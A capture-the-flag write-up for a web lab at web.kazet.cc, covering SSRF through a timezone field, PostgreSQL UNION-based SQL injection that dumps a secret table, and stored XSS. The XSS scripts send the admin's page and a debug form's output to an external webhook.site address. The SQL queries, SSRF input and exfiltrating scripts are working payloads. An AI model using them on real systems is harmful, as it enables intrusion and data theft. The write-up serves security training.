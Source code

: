 # Write-up for http://web.kazet.cc:31339/

## **SSRF** - http://web.kazet.cc:31339/time
By checking the Network tab, we can see that when loading any sub-page, 3 POST requests are being sent to the `/time` endpoint, with the timezone specified in their JSON like so:
```
curl 'http://web.kazet.cc:31339/time' \
-X POST 
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: */*' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Content-Type: application/json' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y11nRg.A9mOvfpy2LOQt4lHOZ5tG4wveCY' \
--data-raw '{"timezone":"newyork"}'
```
Let's try inputting a timezone not specified in the page's [script](http://web.kazet.cc:31339/static/script.js). By doing that we get an error message along the lines of:
```
{"info":"nie uda\u0142o si\u0119 pobra\u0107 http://dubai.timezone.internal","status":"error"}
```
Thus, `newyork` and the others must have been addresses of some internal services. Substuting the city name for `localhost` and adding "`/?`" leads to the "`.timezone.internal`" suffix being treated as a GET request's parameter. Reiterating, we call the curl above, tweaking the last line:
```
--data-raw '{"timezone":"localhost/?"}'
```
and it outputs the flag:
```
{"info":"FLAG{0c55606a072a912d264846cd22c95020e781}","status":"ok"}
```
---
## **SQL Injection** - http://web.kazet.cc:31339/stats/{year}
Resources used:
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://portswigger.net/web-security/sql-injection/examining-the-database

After inputting an non-numeric string in place of the `year` in the url, we are presented with an SQL error. This hints to a SQL Injection being possible. Let's examine the database:
```pgsql
web.kazet.cc:31339/stats/1 AND 1 = 0 UNION SELECT version(), NULL --
```
The output is `PostgreSQL 15.0`. After playing with the `UNION` statement, we come to the conclusion that we can query two fields and the first one contains a string. With this knowledge, let's try to learn the database's tables, which in PostgreSQL is done by querying `information_schema.tables`:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT table_name, NULL FROM information_schema.tables OFFSET 3--
```
We use the `UNION ALL` operator for no rows to get lost. The output shows a table with the name `interesting_and_secret_information`. The name suggests it is what we're looking for. Let's query its columns:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT column_name, DATA_TYPE FROM information_schema.columns WHERE table_name='interesting_and_secret_information'--
```
This outputs a column with the name `secret_text_for_example_a_flag`. Let's view its type:
```pgsql
web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT data_type, NULL FROM information_schema.columns WHERE column_name='secret_text_for_example_a_flag'--
```

What's left is to view that secret text:
```pgsql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION SELECT secret_text_for_example_a_flag, NULL FROM interesting_and_secret_information --
```
It outputs:
```
FLAG{this_is_a_long_and_interesting_flag_9393265140f32ff7...
```
So we're almost there. Let's query for a substring of that result:
```psql
http://web.kazet.cc:31339/stats/1 OR 1=0 UNION ALL SELECT substring(secret_text_for_example_a_flag, 18), NULL FROM interesting_and_secret_information --
```
And so we get the entire flag:
```
ng_and_interesting_flag_9393265140f32ff7fc9f3b5bc9c065b3e6fdc4f4}
```

---
## **XSS** - http://web.kazet.cc:31339/send_article
Let's copy the POST request that submits the article for further use:
```
curl 'http://web.kazet.cc:31339/send_article' \
-X POST \
-H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Accept-Language: en-US,en;q=0.5' \
-H 'Accept-Encoding: gzip, deflate' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://web.kazet.cc:31339' \
-H 'Connection: keep-alive' \
-H 'Referer: http://web.kazet.cc:31339/send_article' \
-H 'Cookie: session=.eJwlzj0OwyAMQOG7MHcA_2Ccy0TYGLXKRpqp6t0bqeNbnr5P2ueK85m297rikfbXSFsaED2rMJJQmzEGEBfTbFypC7K45qI1MimzewxTbVrEgjpgdmfrMqYjEgv3aiI4hRQhc1Fx9-I4GkHMgDutRC73OdwbTIB0Q64z1l9zHARaQdP3B-FdMPk.Y10YlA.tnVOglW7kp0X9pNztyb1ZEDXZ9E' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'article=%3Cp%3E<CONTENTS>%3C%2Fp%3E'
```
where `<CONTENTS>` is whatever whe enter in the field, naturally it has to be [url-encoded](https://www.urlencoder.org/).

By viewing the input box's HTML it's evident that one can input any valid HTML, there's also no need for the enclosing `<p>` tags. So why not try some simple JS?
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   window.location.href = webhook + "?data=" + encodeURIComponent(document.body.innerHTML)
</script>
```
By executing this with the previous curl we get the webpage's HTML from the admin's perspective, which provides an additional tab/endpoint: `/send_feedback`. Let's refine our XSS script to view that sub-page:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';

   fetch('/send_feedback')
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
On that sub-page we see a [Bootstrap form](https://getbootstrap.com/docs/4.0/components/forms/) and deduce the page can be queried with a POST request and a JSON whose fields are:
`["receiver", "content", "debug"]`. The `debug` checkbox looks promising - according to the comment, checking it will provide us with the system's diagnostic data. Let's try that:
```html
<script>
   const webhook = 'https://webhook.site/82310b30-bdb3-45f9-8d46-92f9c44fcf0d';
   var formData = new FormData();
   formData.append('receiver', 'kk429629'); // my login for the
   formData.append('content', "Here's your diagnostics:");
   formData.append('debug', 'on');

   fetch('/send_feedback', { method: 'POST', body: formData })
      .then(response => response.text())
      .then(data => window.location.href = webhook + "?data=" + encodeURIComponent(data))
      .catch(err => window.location.href = webhook + "?err="  + encodeURIComponent(err));
</script>
```
After refreshing the page, we get:
```
Informacja zwrotna: Here's your diagnostics:
flaga: FLAG{752e8db03d875cfec6bdf8305756f1bb} 
```